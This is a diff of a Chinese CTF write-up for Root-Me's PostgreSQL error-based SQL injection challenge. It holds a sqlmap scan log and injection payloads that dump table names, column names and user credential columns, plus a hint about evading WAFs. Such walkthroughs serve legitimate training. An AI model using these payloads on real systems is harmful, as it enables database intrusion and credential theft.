

SQL injection - Error

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.557, 0.9403, 0.6499, 0.9707]]

diff --git a/rootme/Web-Server/[47] [40P] SQL injection - Error/README.md b/rootme/Web-Server/[47] [40P] SQL injection - Error/README.md
@@ -73,31 +73,150 @@
 
 ------------
 
-## 探针
+## 通过 sqlmap 找到探针
 
 > 注：PostgreSql 数据库，通常也简称为 pgsql 。
 
-知道数据库类型，就可以针对性注入了。而对于 pgsql ，可以在 order by 后面注入的 payload 是非常少的。
+知道数据库类型，就可以针对性注入了。而对于 pgsql ，据我所知可以在 order by 后面注入的 payload 是不多的。
 
-下面这个是由 `sqlmap` 提供的为数不多的 payload 之一：
+在这里可以借助 sqlmap 先找到探针。
 
-```sql
-ASC,(CAST((CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (1788=1788) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(107)||CHR(113)||CHR(113)) AS NUMERIC))
-```
+如果 Burp Suite 已经加了 sqlmap 插件，可以直接把完整的 HTTP 请求发送到 sqlmap （注意这个请求的 URL 不要注入前面的其他东西，保持题目最原始的参数即可）：
 
 ![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/10.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/11.png)
 
-这个 payload 并不能用来解决这个挑战，它是 `sqlmap` 用于确认被注入的 SQL 是什么类型的**探针**。
 
-通过这个探针 `sqlmap` 就可以确定这是属于 pgsql 数据库的、基于错误的 SQL 注入题型。
+这里记录了 sqlmap 的扫描结果：
 
-> 注：Rootme 等多个 CTF 平台现在已经对 `sqlmap` 等工具进行了屏蔽，避免被直接解题，所以真正的 payload 还是要靠自己慢慢寻找。不过致力于用 `sqlmap` 解题的可以尝试想办法绕过 WAF ，但关于如何绕过我就不提供建议了，毕竟最好还是掌握 SQL 注入的技术更重要。
+```shell
+S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552703940473.req
+        ___
+       __H__
+ ___ ___[(]_____ ___ ___  {1.3.3.23#dev}
+|_ -| . [)]     | .'| . |
+|___|_  [,]_|_|_|__,|  _|
+      |_|V...       |_|   http://sqlmap.org
 
-这个探针最大的作用是对于我们构造 payload 具有指导性作用。
+[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
 
-注入探针后我们得到回显输出 `ERROR:  invalid input syntax for type numeric: "qbpzq1qjkqq"` ，
+[*] starting @ 10:39:03 /2019-03-16/
 
-输出中有一串字符串 `qbpzq1qjkqq` 其实就是这个探针控制得到的。
+[10:39:03] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552703940473.req'
+[10:39:04] [INFO] testing connection to the target URL
+[10:39:05] [INFO] checking if the target is protected by some kind of WAF/IPS
+[10:39:05] [INFO] testing if the target URL content is stable
+[10:39:06] [INFO] target URL content is stable
+[10:39:06] [INFO] testing if GET parameter 'action' is dynamic
+[10:39:06] [INFO] GET parameter 'action' appears to be dynamic
+[10:39:07] [WARNING] heuristic (basic) test shows that GET parameter 'action' might not be injectable
+[10:39:07] [INFO] testing for SQL injection on GET parameter 'action'
+[10:39:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
+[10:39:12] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
+[10:39:13] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
+[10:39:15] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
+[10:39:17] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
+[10:39:19] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
+[10:39:21] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
+[10:39:21] [INFO] testing 'MySQL inline queries'
+[10:39:22] [INFO] testing 'PostgreSQL inline queries'
+[10:39:22] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
+[10:39:23] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
+[10:39:24] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
+[10:39:26] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
+[10:39:27] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
+[10:39:29] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
+[10:39:31] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
+[10:39:33] [INFO] testing 'Oracle AND time-based blind'
+[10:39:36] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
+[10:40:01] [WARNING] GET parameter 'action' does not seem to be injectable
+[10:40:01] [INFO] testing if GET parameter 'order' is dynamic
+[10:40:02] [WARNING] GET parameter 'order' does not appear to be dynamic
+[10:40:02] [INFO] heuristic (basic) test shows that GET parameter 'order' might be injectable (possible DBMS: 'PostgreSQL')
+[10:40:03] [INFO] testing for SQL injection on GET parameter 'order'
+it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
+for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] Y
+[10:40:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
+[10:40:28] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
+[10:40:28] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
+[10:40:31] [WARNING] reflective value(s) found and filtering out
+[10:41:06] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
+[10:41:48] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace'
+[10:41:49] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace (original value)'
+[10:41:50] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace (GENERATE_SERIES)'
+[10:41:51] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace (GENERATE_SERIES - original value)'
+[10:41:52] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause'
+[10:41:54] [INFO] GET parameter 'order' appears to be 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause' injectable
+[10:41:54] [INFO] testing 'PostgreSQL error-based - Parameter replace'
+[10:41:55] [INFO] testing 'PostgreSQL error-based - Parameter replace (GENERATE_SERIES)'
+[10:41:55] [INFO] testing 'PostgreSQL error-based - ORDER BY, GROUP BY clause'
+[10:41:56] [INFO] GET parameter 'order' is 'PostgreSQL error-based - ORDER BY, GROUP BY clause' injectable
+[10:41:56] [INFO] testing 'PostgreSQL inline queries'
+[10:41:56] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
+[10:41:57] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
+[10:41:57] [INFO] testing 'PostgreSQL stacked queries (heavy query - comment)'
+[10:41:58] [INFO] testing 'PostgreSQL stacked queries (heavy query)'
+[10:41:58] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
+[10:41:59] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc)'
+[10:41:59] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
+[10:42:02] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind'
+[10:42:03] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind (comment)'
+[10:42:03] [INFO] testing 'PostgreSQL > 8.1 OR time-based blind (comment)'
+[10:42:04] [INFO] testing 'PostgreSQL AND time-based blind (heavy query)'
+[10:42:04] [INFO] testing 'PostgreSQL OR time-based blind (heavy query)'
+[10:42:09] [INFO] testing 'PostgreSQL AND time-based blind (heavy query - comment)'
+[10:42:09] [INFO] testing 'PostgreSQL OR time-based blind (heavy query - comment)'
+[10:42:10] [INFO] testing 'PostgreSQL > 8.1 time-based blind - Parameter replace'
+[10:42:10] [INFO] testing 'PostgreSQL time-based blind - Parameter replace (heavy query)'
+[10:42:11] [INFO] testing 'PostgreSQL > 8.1 time-based blind - ORDER BY, GROUP BY clause'
+[10:42:11] [INFO] testing 'PostgreSQL time-based blind - ORDER BY, GROUP BY clause (heavy query)'
+[10:42:12] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
+[10:42:12] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
+GET parameter 'order' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
+sqlmap identified the following injection point(s) with a total of 373 HTTP(s) requests:
+---
+Parameter: order (GET)
+    Type: boolean-based blind
+    Title: PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause
+    Payload: action=contents&order=ASC,(SELECT (CASE WHEN (6759=6759) THEN 1 ELSE 1/(SELECT 0) END))
+
+    Type: error-based
+    Title: PostgreSQL error-based - ORDER BY, GROUP BY clause
+    Payload: action=contents&order=ASC,(CAST((CHR(113)||CHR(118)||CHR(120)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5026=5026) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC))
+---
+[10:42:31] [INFO] the back-end DBMS is PostgreSQL
+web application technology: Nginx
+back-end DBMS: PostgreSQL
+[10:42:31] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
+
+[*] ending @ 10:42:31 /2019-03-16/
+```
+
+> 注：某些 CTF 平台会对 `sqlmap` 等工具进行 WAF 屏蔽，直接结果就是导致扫描失败，所以还是尽可能更多地总结自己 SQLi 的探针。不过即使被 WAF 还是有办法绕过的，例如利用 tamper，或直接找到源站 IP 。
+
+通过 sqlmap 的扫描结果，可以知道这个确实是 PostgreSQL 数据库，且Web 框架是 Nginx 。
+
+同时也发现了页面 [http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC](http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC) 其实是有两种注入方式的：
+
+
+```sql
+// 基于布尔盲注，探针是：
+action=contents&order=ASC,(SELECT (CASE WHEN (6759=6759) THEN 1 ELSE 1/(SELECT 0) END))
+
+// 基于错误注入，探针是
+action=contents&order=
+ASC,(CAST((CHR(113)||CHR(118)||CHR(120)||CHR(98)||CHR(113))||(SELECT (CASE WHEN (5026=5026) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113)) AS NUMERIC))
+```
+
+但既然题目是基于错误的 SQL 注入，布尔盲注的探针就先不管了。
+
+我们尝试使用后一个探针，得到回显输出 `ERROR:  invalid input syntax for type numeric: "qvxbq1qxxbq"` 。
+
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/12.png)
+
+> 需知道探针并不能用来解决这个挑战，它最大的作用是对于我们构造 payload 具有指导性作用。
+
+注意到回显输出中有一串字符串 `qbpzq1qjkqq` 其实就是这个探针控制得到的。
 
 但是为什么会得到这个字符串？不妨来分析一下。这个探针看似复杂，其实十分简单，先拆解下结构：
 
@@ -105,15 +224,17 @@ ASC,(CAST((CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113))||(SELECT (CASE WHEN 
 ASC,(
   CAST(
         (
-          CHR(113)||CHR(98)||CHR(112)||CHR(122)||CHR(113)
+          CHR(113)||CHR(118)||CHR(120)||CHR(98)||CHR(113)
         )
         ||
         (
           SELECT (
-            CASE WHEN (1788=1788) THEN 1 ELSE 0 END)
-          )::text
-          ||
-          (CHR(113)||CHR(106)||CHR(107)||CHR(113)||CHR(113)
+            CASE WHEN (5026=5026) THEN 1 ELSE 0 END
+          )
+        )::text
+        ||
+        (
+          CHR(113)||CHR(120)||CHR(120)||CHR(98)||CHR(113)
         )
   AS NUMERIC)
 )
@@ -122,18 +243,18 @@ ASC,(
 这个探针结构有几个的 pgsql 语法点：
 
 - `CAST(xxx AS NUMERIC)` 表示把 `xxx` 强制转换为 `NUMERIC` 数字类型
-- `CHR(ASCII)` 实际上就是 ASCII 字符 （目的就是避免使用无法注入的引号）
+- `CHR(ASCII)` 实际上就是随机选的 ASCII 字符 （目的只是避免使用无法注入的引号）
 - `||` 是拼接字符或字符串的操作符号 （不是 或运算）
 - `(xxx)::text `表示把 `xxx` 强制转换成 `text` 文本类型（即字符串）
 - `CASE WHEN` 不难理解就是条件运算符了
 
 根据这几个语法点，不难知道：
 
-- `SELECT` 前面的字符拼接，得到的字符串是 `qbpzq`
+- `SELECT` 前面的字符拼接，得到的字符串是 `qvxbq`
 - `SELECT` 本身的条件运算，得到数字 `1` 且转换成字符串
-- `SELECT` 后面的字符拼接，得到的字符串是 `qjkqq`
-- 把这三部分拼接起来就是字符串 `qbpzq1qjkqq`
-- `CAST` 尝试把字符串 `qbpzq1qjkqq` 转换成数字，于是抛出异常，而在异常中输出了这个字符串
+- `SELECT` 后面的字符拼接，得到的字符串是 `qxxbq`
+- 把这三部分拼接起来就是字符串 `qvxbq1qxxbq`
+- `CAST` 尝试把字符串 `qvxbq1qxxbq` 转换成数字，于是抛出异常，而在异常中输出了这个字符串
 
 简单来说，这个探针就是利用 `CAST` 强制类型转换失败抛出异常的原理，抛出我们想要的内容。
 
@@ -147,7 +268,7 @@ ASC,(
 
 - 原本最开头的 `ASC` 可以不需要，因为排序默认就是 `ASC` （注意逗号 `,` 不能丢）
 - 拼接 `CHR(62)||` 是确保 `CAST NUMERIC` 的必定是字符串，即必定报错抛出异常 （`CHR(62)` 是字符 `>`）
-- `[注入SQL]` 就是我们控制查询数据库信息的 SQL ，要求返回值只有 1 个值 （而不能是一张表）
+- `[注入SQL]` 就是我们控制查询数据库信息的 SQL ，要求返回值只有 1 个值（**准确而言是 1 行 1 列**，而不能是一张表）
 
 ------------
 
@@ -159,13 +280,13 @@ ASC,(
 
 得到：PostgreSQL 9.3.20 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04.3) 4.8.4, 64-bit
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/11.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/13.png)
 
 又如要获取数据库名称：`,(CAST(CHR(62)||(SELECT CURRENT_DATABASE()) AS NUMERIC))`
 
 得到：c_webserveur_34
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/12.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/14.png)
 
 ------------
 
@@ -175,13 +296,13 @@ ASC,(
 
 在 pgsql 中，有一张固定的系统表 `pg_tables` 记录了所有库中所有表，其 [表结构](https://www.postgresql.org/docs/8.3/view-pg-tables.html) 为：
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/13.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/15.png)
 
 先构造这样的 payload 查看当前数据库表的数量，一共 60 张表：
 
 `,(CAST(CHR(62)||(SELECT COUNT(1) FROM pg_tables) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/14.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/16.png)
 
 
 从 `pg_tables` 的表结构可以知道其中一列是 `tablename` ，尝试构造这样的 payload 获得所有表名：
@@ -190,7 +311,7 @@ ASC,(
 
 但是出错了，原因是构造的 SELECT 表达式返回的值不能超过 1 行。
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/15.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/17.png)
 
 在 payload 中添加 `LIMIT 1` 即可避免此异常：
 
@@ -198,14 +319,15 @@ ASC,(
 
 成功获得了第一张表名 `pg_statistic` 。
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/16.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/18.png)
+
 
 
 但 `LIMIT 1` 限制了每次都只能取到第一张表，又要怎样得到所有表名 ?
 
 其实方法也有很多，例如利用偏移 `LIMIT 1 OFFSET k` ，只要把 `k` 从 0 枚举到 59 ，发起请求 60 次，即可得到全部 60 张表， payload 为：`,(CAST(CHR(62)||(SELECT tablename from pg_tables LIMIT 1 OFFSET k) AS NUMERIC))` （注意把 `k` 换成数字）。可以编程实现 `k` 值枚举，不过这里推荐使用 Burp Suite 的 Intruder 实现：
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/17.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/19.png)
 
 根据不同的 `k` 值获得的 60 张表名如下：
 
@@ -284,7 +406,7 @@ ASC,(
 
 `,(CAST(CHR(62)||(SELECT COUNT(1) FROM m3mbr35t4bl3) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/18.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/20.png)
 
 
 尝试构造 payload 直接读取这行数据：
@@ -293,7 +415,7 @@ ASC,(
 
 但是又出错了，原因是构造的 SELECT 表达式返回的值除了不能超过 1 行，还不能超过 1 列。
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/19.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/21.png)
 
 但是我们不知道 `m3mbr35t4bl3` 表的列名，为此先要设法找到其列名。
 
@@ -316,7 +438,7 @@ SELECT attname FROM pg_attribute pa, pg_class pc WHERE pa.attrelid = pc.oid AND 
 
 `,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY 1) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/20.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/22.png)
 
 从异常中抛出了其中一列的列名 `us3rn4m3_c0l` ，声称其未被包含在 `GROUP BY` 中。
 
@@ -324,19 +446,19 @@ SELECT attname FROM pg_attribute pa, pg_class pc WHERE pa.attrelid = pc.oid AND 
 
 `,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/21.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/23.png)
 
 这次又从异常中抛出了新的一列 `id`，利用之构造新的 payload 如下：
 
 `,(CAST(CHR(62)||(SELECT * FROM m3mbr35t4bl3 GROUP BY us3rn4m3_c0l, id) AS NUMERIC))`
 
-![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/22.png)
+![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B47%5D%20%5B40P%5D%20SQL%20injection%20-%20Error/imgs/24.png)
 
 再次从异常中得到新的一列 `p455w0rd_c0l`，利用之构造新的 payload 如下：
 
